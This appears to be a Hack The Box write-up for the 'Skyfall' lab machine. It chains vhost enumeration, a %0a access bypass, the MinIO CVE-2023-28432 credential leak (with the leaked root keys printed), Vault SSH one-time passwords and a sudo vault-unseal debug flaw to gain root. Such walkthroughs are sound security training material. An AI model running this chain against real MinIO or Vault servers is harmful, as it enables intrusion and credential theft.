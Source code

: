 ```yaml
---
title: HTB-Skyfall
draft: false
tags:
  - htb
  - linux
  - insane
---
```

pic here

## Information Gathering

`rustscan --addresses 10.10.11.254 --range 1-65535`

![alt text](image.png)

`sudo nmap -sVC -p 80 10.10.11.254`

![alt text](image-1.png)

## Enumeration
### HTTP - TCP 80

![alt text](image-2.png)

skyfall.htb

![alt text](image-3.png)

`sudo gobuster vhost --append-domain -u http://skyfall.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`

![alt text](image-4.png)

### demo.skyfall.htb
guest:guest

![alt text](image-5.png)

![alt text](image-6.png)

MinioMetrics

/metrics

![alt text](image-7.png)

`%0a`

![alt text](image-8.png)

When I scroll down the page, I come across the MinIO endpoint.

`http://prd23-s3-backend.skyfall.htb/minio/v2/metrics/cluster` /etc/hosts

![alt text](image-9.png)


### prd23-s3-backend.skyfall.htb


![alt text](image-10.png)


## Shel as askyy
### CVE-2023-28432


![alt text](image-11.png)

https://github.com/acheiii/CVE-2023-28432/

![alt text](image-12.png)

`POST /minio/bootstrap/v1/verify`

![alt text](image-13.png)

```
MINIO_ROOT_USER:5GrE1B2YGGyZzNHZaIww
MINIO_ROOT_PASSWORD:GkpjkmiVmpFuL2d3oRx0
```

### MinIO Client

**mc**** is a command-line client for **MinIO**, an open-source object storage server compatible with Amazon S3 cloud storage service.



https://min.io/docs/minio/linux/reference/minio-mc.html#id2

![alt text](image-14.png)

`mc alias set myminio http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0`

![alt text](image-15.png)

`mc ls myminio`

![alt text](image-16.png)

`mc ls --recursive --versions myminio`

![alt text](image-17.png)

`mc cp --vid 2b75346d-2a47-4203-ab09-3c9f878466b8 myminio/askyy/home_backup.tar.gz ~/Documents/htb/skyfall/home_backup.tar.gz`

![alt text](image-18.png)

### Vault

`sudo tar xzvf home_backup.tar.gz`

![alt text](image-19.png)


`.bashrc`

![alt text](image-20.png)

```
export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
export VAULT_TOKEN="blahblah"
```

prd23-vault-internal.skyfall.htb

/etc/hosts

https://developer.hashicorp.com/vault/docs/secrets/ssh/one-time-ssh-passwords


`wget https://releases.hashicorp.com/vault/1.15.5/vault_1.15.5_linux_amd64.zip`

`export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"`

`export VAULT_TOKEN="blahblah"`


`./vault login`

![alt text](image-21.png)

`./vault token capabilities ssh/roles`

![alt text](image-23.png)

`./vault list ssh/roles`

![alt text](image-24.png)

`./vault ssh -role dev_otp_key_role -mode OTP -strict-host-key-checking=no askyy@10.10.11.254`

![alt text](image-22.png)

## Privesc: askyy to root
### Sudoers

`sudo -l`

![alt text](image-25.png)

`sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml`

![alt text](image-26.png)

`sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd`

![alt text](image-27.png)

![alt text](image-28.png)

![alt text](image-29.png)

![alt text](image-30.png)



sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd 


### SSH as root

```
export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
export VAULT_TOKEN="blahblah"
```

![alt text](image-31.png)

`./vault ssh -role admin_otp_key_role -mode OTP -strict-host-key-checking=no root@10.10.11.254`

![alt text](image-32.png)

## References
- https://github.com/acheiii/CVE-2023-28432/
- https://min.io/docs/minio/linux/reference/minio-mc.html#id2